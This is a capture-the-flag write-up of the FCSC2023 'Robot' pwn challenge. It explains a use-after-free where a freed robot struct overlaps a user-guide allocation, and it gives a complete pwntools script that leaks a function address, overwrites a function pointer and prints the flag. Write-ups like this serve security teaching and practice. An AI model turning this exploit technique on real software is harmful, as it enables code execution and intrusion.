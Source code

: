 ```yaml
---
title: CTFs | FCSC2023 | Robot
author: Kaiba_404
date: 2023-05-01
categories: [CTFs, FCSC2023, Robot]
tags: [CTF, FCSC2023, pwn]
permalink: /CTFs/FCSC2023/pwn/Robot
---
```


# Robot

![image](https://raw.githubusercontent.com/CongKhaiNGUYEN/congkhainguyen.github.io/main/_posts/CTFs/FCSC2023/pwn/img/chall_robot.png)

The challenge give us two file: a source code and an binary file

- [robot](files/robot)
- [robot.c](files/robot.c)

The challenge tell us that this binary is protected by all classical protections like ASLR, W^X,...

![image](https://raw.githubusercontent.com/CongKhaiNGUYEN/congkhainguyen.github.io/main/_posts/CTFs/FCSC2023/pwn/img/binary_protection.png)

I decided to read the source code to find exploitable vulnerabilities. While analyzing the source code, I found a fascinating function 'admin', which is shown below. 

```c

void admin(char *pwd)
{
    unsigned char hash[SHA256_DIGEST_LENGTH];
    char    result[65];

    SHA256((const unsigned char *) pwd, strlen(pwd), hash);

    for (int i = 0; i < SHA256_DIGEST_LENGTH; i++) {
        sprintf(result + (i * 2), "%02x", hash[i]);
    }

    if (strcmp(result, encrypted) == 0) {
        execl("/bin/cat", "/bin/cat", "flag.txt", NULL);
        perror("execl");
        exit(2);
    } else {
        puts("ERROR: wrong password!");
    }
}

```


The 'admin' function is responsible for reading the flag. However, we need the admin's password to obtain the flag, which we don't have (of course!). As an alternative, we can attempt to directly jump into the code at the address of `execl("/bin/cat", "/bin/cat", "flag.txt", NULL);`. However, this is not a straightforward task. According to the source code, the program is protected against buffer overflow and string formatting vulnerabilities. All inputs are rigorously checked, and the print statements are flawlessly formatted to prevent any potential exploitation.

However, it seems that the programmer for this robot forgot something. Consider the robot's functions. Their code was normal until I noticed something weird

```c
case '3':
    if (robot) {
        printf ("Vous allumez le robot. ");
        robot->move(robot);
        printf ("De la fumée commence à apparaître, puis des étincelles... %s prend feu !!!\n", robot->name);
        printf ("%s est complètement détruit\n", robot->name);
        free (robot);
    } else {
        puts ("Vous n'avez pas de robot !");
    }
    break;
```

Calling `free(robot)` without setting `robot=NULL` creates a vulnerability that can be exploited using a ***Use-After-Free (UAF)*** attack. To take advantage of this critical vulnerability, we will examine the structure of the robot and search for a way to exploit it.

```c
struct Robot {
    char name[16];
    void (*makeNoise)();
    void (*move)();
};

struct RobotUserGuide {
    char guide[32];
};

```

We can assume that the size of the robot struct is `16+8+8 = 32`, since the two function pointers always have a size of 8. Additionally, the struct RobotUserGuide has a size of 32 (perhaps this is a hint?). Continuing to examine the source code, I noticed that the struct `RobotUserGuide` appears  in the following section:

```c
case '4':
    userGuide = malloc (sizeof (struct RobotUserGuide));
    printf ("Vous commencez à rédiger le mode d'emploi...\n> ");
    fgets (userGuide->guide, 32, stdin);
    break;
```

Voila, we can modify the parameters of struct robot through using struct RobotUserGuide. I proceed to test my conjecture:

![find_the_vuln](https://user-images.githubusercontent.com/61443497/235510458-524379af-9c98-4ed3-b441-b97551cae793.png)

There are some weird characters appear when i type 5 and enter. These are the pointers to the functions as I analyzed above. At this point I conclude that this binary can be exploited because the programmer did not assign `robot=NULL` after free it.


## Exploitation

To exploit the vulnerability, we can follow these steps:
1. Create a robot with any name.
2. Play with the robot to call the free function on the robot.
3. Create a userGuide with a character length less than 16, which ensures that the address of the bleep function is not overwritten.
4. Request the program to display the userGuide's content on screen, and obtain the address of the `bleep` function. This address will allow us to find the address of the `execl` to read the flag.
5. After obtaining the address of the `bleep` function, we can continue interacting with the robot and repeatedly call the free function. This will help the function pointer to eventually point to the address where we want on the next action.
6.  Next, we need overwrite the 17-24th byte in the userGuide (which is pointed to by the function pointer of the robot struct) with the address of `execl("/bin/cat", "/bin/cat", "flag.txt", NULL);`
7.  Finally, by using the `le faire paler` in the program, we can trigger the exploit and obtain the flag.

Here is my full exploit code:


```python
from pwn import *

# p = process("./robot")
p=remote("challenges.france-cybersecurity-challenge.fr",2101)

msg = p.recvuntil(b'Quitter')

p.sendline(b'1')
msg = p.recvuntil(b'l\'appelez ?')

p.sendline(b'qwerty')
msg = p.recvuntil(b'Quitter')

p.sendline(b'3')
msg = p.recvuntil(b'Quitter')



p.sendline(b'4')
msg = p.recvuntil(b'le mode d\'emploi...')
p.sendline(b'0123456789')

p.sendline(b'5')

msg = p.recvuntil(b'Quitter')
msg = p.recvuntil(b'Que faites-vous ?')
print(msg)
p.recv()
leak_code = msg[19:35]
bleep_p64 = msg[19:27]
bleep_u64 = u64(bleep_p64)
log.success(f'[LEAK] {hex(bleep_u64)}')
cat_addr = bleep_u64 + 0x1f3
print(hex(cat_addr))
p.sendline(b'3')
new_msg = p.recvuntil(b'Quitter')


p.sendline(b'4')
msg = p.recvuntil(b'le mode d\'emploi...')
p.sendline(b'A'*16+p64(cat_addr))


p.sendline(b'5')

newmsg = p.recvuntil(b'Quitter')
newmsg = p.recvuntil(b'Que faites-vous ?')


p.sendline(b'2')
# @admin- @bleep = 14e      #use objdump -M intel -d ./robot
# read_pass - @bleep = 1f3
p.interactive()

```

Result:

![robot_writeup](https://user-images.githubusercontent.com/61443497/235506834-74e9e108-274d-404b-81ff-acf5c4911048.png)

FLAG: `FCSC{136e057aa66dd6d6b772cae51260121f65973ff2045ec812ad597c9060a6a18d}`
